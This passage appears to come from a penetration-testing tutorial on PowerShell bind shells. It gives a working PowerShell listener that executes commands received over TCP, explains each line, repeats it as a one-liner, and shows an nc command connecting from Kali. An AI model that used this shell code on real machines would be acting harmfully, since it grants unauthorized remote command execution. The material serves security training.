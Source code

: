 ### **3.3. PowerShell Bind Shells**

The Kali Linux machine will connect to the Windows machine and execute commands on the Windows machine.

From Windows, we will use PowerShell to set up a listener on port 1308

```powershell
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',1308);
$listener.start();
$client = $listener.AcceptTcpClient();
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '>';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
$listener.Stop();
```

- `listener` variable: the TCP listener and start the listener
- `client` variable: the TCP client connecting to the listener
- `stream` variable: the TCP stream
- `bytes` variable: the buffer
- `while` loop: read the data from the stream and execute it as a PowerShell command via `iex` (Invoke-Expression)
- `sendback` variable: the output of the command
- `sendback2` variable: the output of the command with the current working directory
- `sendbyte` variable: the output of the command with the current working directory converted to ASCII
- `stream.Write`: write the output of the command with the current working directory to the stream

Turn into an one-liner

```powershell
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',1308);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '>';    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close();$listener.Stop();
```

From Kali Linux, we will use `nc` to connect to the Windows machine through TCP port 1308

```bash
nc -nv 192.168.190.10 1308
```

![](./img/Chapter4/32.png)
